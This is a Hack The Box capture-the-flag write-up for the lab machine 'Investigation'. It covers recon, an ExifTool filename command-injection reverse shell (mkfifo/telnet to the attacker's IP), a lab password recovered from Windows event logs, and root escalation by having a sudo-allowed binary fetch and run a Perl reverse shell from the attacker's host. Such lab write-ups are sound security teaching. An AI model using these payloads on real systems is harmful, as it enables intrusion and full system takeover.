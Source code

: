 +++ 
title = "Investigation HTB Write up"
description = "Write up for the HTB machine 'Investigation'"
author = "greatmoves"
tags = ["exiftool", "perl", "hackthebox", "binary ninja", "reverse engineering", "sudo -l", "digital forensics"]
date = 2023-04-23
+++
- [1. Initial Recon](#1-initial-recon)
  - [1.1. nmap](#11-nmap)
  - [1.2. nikto](#12-nikto)
- [2. website recon](#2-website-recon)
  - [2.1. ExifTool](#21-exiftool)
- [3. user.txt](#3-usertxt)
  - [3.1. file system recon](#31-file-system-recon)
  - [3.2. .msg file](#32-msg-file)
- [4. root.txt](#4-roottxt)
  - [4.1. investigating the binary](#41-investigating-the-binary)
    - [4.1.1. binary ninja](#411-binary-ninja)
    - [4.1.2. final payload](#412-final-payload)

## 1. Initial Recon
----
### 1.1. nmap
cmd `nmap -sC -sV 10.10.11.197`
- From the nmap scan we get the url `http://eforenzics.htb/` which we can add to /etc/hosts
- We have port 22 ssh and port 80 http
### 1.2. nikto
cmd `nikto -host 10.10.11.197`
- found nothing interesting
## 2. website recon
----
- /service.html has a file upload service
    - uploading any image file reveals the ExifTool Version Number 12.37
### 2.1. ExifTool
A quick google search for ExifTool reveals a command injection vulnerability for that version number
- https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429
  - ```Exiftool versions < 12.38 are vulnerable to Command Injection through a crafted filename. If the filename passed to exiftool ends with a pipe character | and exists on the filesystem, then the file will be treated as a pipe and executed as an OS command.```

Our payload will be in the name of the file that we upload to the web application

After trying some payloads from revshells we can eventually use:
- payload: `TF=$(mktemp -u);mkfifo $TF && telnet 10.10.x.x 4444 0<$TF | sh 1>$TF |`
## 3. user.txt
Once we have our reverse shell let's obtain a fully interactive shell with:
`python3 -c 'import pty;pty.spawn("/bin/bash");'`

### 3.1. file system recon
After some recon of the file system we find the directory `/usr/local/investigation`
- from here we can also find our username: `smorton`

Let's download the files

- On the victim machine spin up a http server using `python3 -m http.server`
- On your attacking machine run `curl http://10.10.11.197:8000/Windows%20Even%20Logs%20for%20Analysis.msg > out.msg`

### 3.2. .msg file
Now we need to find what to do with a `.msg` file. Thankfully we can use `https://www.encryptomatic.com/viewer/` to analyse it for us, which will lead us to downloading a zip file, extract the file from the zip.

Now we've got a `.evtx` file and we've gotta figure out what to do with that.
- here's a python module that can help with that `https://pypi.org/project/python-evtx/`
  - run `python3 evtx_dump.py security.evtx > out.json`

In the event logs we can look for basic logon events [Audit logon events (Windows)](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/basic-audit-logon-events)
- The code `4625` is for a `Logon failure. A logon attempt was made with an unknown user name or a known user name with a bad password.`

We can search for this in the event log using `grep`
- `cat out.json | grep "4625" -C 10 > grep.out`
  
From the output of our grep command we can find a password: `Def@ultf0r3nz!csPa$$`

Now we can ssh into the machine with the credentials
```
smorton:Def@ultf0r3nz!csPa$$
```

navigate to `/home/smorton` for `user.txt`
## 4. root.txt
when we run `sudo -l` we can see that there's a binary the user is allowed to run
```
User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

So let's investigate this binary. Same as above let's spin up a http server using python3 on the victim machine and download the binary
- run `python3 -m http.server` on the victim machine
- run `curl http://10.10.11.197:8000/binary > binary.out` on your attacking machine

### 4.1. investigating the binary
let's start by running `strings binary.out`
```
...
Exiting... 
lDnxUysaQn
Running... 
perl ./%s
rm -f ./lDnxUysaQn
...
```

from this we can gather that
- perl is being run on a string
- `lDnxUysaQn` has some significance

#### 4.1.1. binary ninja
binary ninja allows us to decompile the binary and get an idea of what the main function of the binary is doing
{{< highlight c "linenos=inline" >}}
    0000144a      if (argc != 3)
    00001453          puts(str: "Exiting... ")
    0000145d          exit(status: 0)
    0000145d          noreturn
    00001469      if (getuid() != 0)
    00001472          puts(str: "Exiting... ")
    0000147c          exit(status: 0)
    0000147c          noreturn
    0000149d      if (strcmp(argv[2], "lDnxUysaQn") != 0)
    00001687          puts(str: "Exiting... ")
    00001691          exit(status: 0)
    00001691          noreturn
    000014aa      puts(str: "Running... ")
    000014c4      FILE* rax_8 = fopen(filename: argv[2], mode: &data_2027)
    000014cd      int64_t rax_9 = curl_easy_init()
    000014d6      int32_t var_40 = 0x2712
    000014f9      curl_easy_setopt(rax_9, 0x2712, argv[1], 0x2712)
    000014fe      int32_t var_3c = 0x2711
    0000151a      curl_easy_setopt(rax_9, 0x2711, rax_8, 0x2711)
    0000151f      int32_t var_38 = 0x2d
    0000153c      curl_easy_setopt(rax_9, 0x2d, 1, 0x2d)
    00001554      if (curl_easy_perform(rax_9) != 0)
    00001671          puts(str: "Exiting... ")
    0000167b          exit(status: 0)
    0000167b          noreturn
    00001583      int64_t rax_25 = sx.q(snprintf(s: nullptr, maxlen: 0, format: &data_202a, argv[2]))
    00001594      char* rax_28 = malloc(bytes: rax_25 + 1)
    000015c6      snprintf(s: rax_28, maxlen: rax_25 + 1, format: &data_202a, argv[2])
    000015ed      int64_t rax_37 = sx.q(snprintf(s: nullptr, maxlen: 0, format: "perl ./%s", rax_28))
    000015fe      char* rax_40 = malloc(bytes: rax_37 + 1)
    00001629      snprintf(s: rax_40, maxlen: rax_37 + 1, format: "perl ./%s", rax_28)
    00001635      fclose(fp: rax_8)
    00001641      curl_easy_cleanup(rax_9)
    0000164b      setuid(uid: 0)
    00001657      system(line: rax_40)
    00001663      system(line: "rm -f ./lDnxUysaQn")
{{< / highlight >}}

from this we can gather
- the program requires 2 arguments (line 1)
- the second argument must be `lDnxUysaQn` (line 9)
- curl is being used on argument 1 (line 17, line 22)
  - [man page for curl_easy_perform](https://linux.die.net/man/3/curl_easy_perform)
- perl is being run with system (line 31, line 35)

so let's construct a command to run on the victim machine so that it meets the above requirements

#### 4.1.2. final payload
`sudo /usr/bin/binary 10.10.x.x:80/payload.pl lDnxUysaQn`
- we need to be running the binary as sudo, so we need `sudo /usr/bin/binary` at the start
- the first argument is being curled, so let's use `python3 -m http.server 80` to host our payload
  - `10.10.x.x:80/payload.pl` is so the binary curls from our machine
- perl is being run, so let's make our payload a perl script for a reverse shell
  - from [revshells](https://www.revshells.com/) get a perl reverse shell
- finally, `lDnxUysaQn` is required at the end

Spin up the http server on your attacking machine along with a netcat listener

finally, our netcat listener will catch a reverse shell as the root user.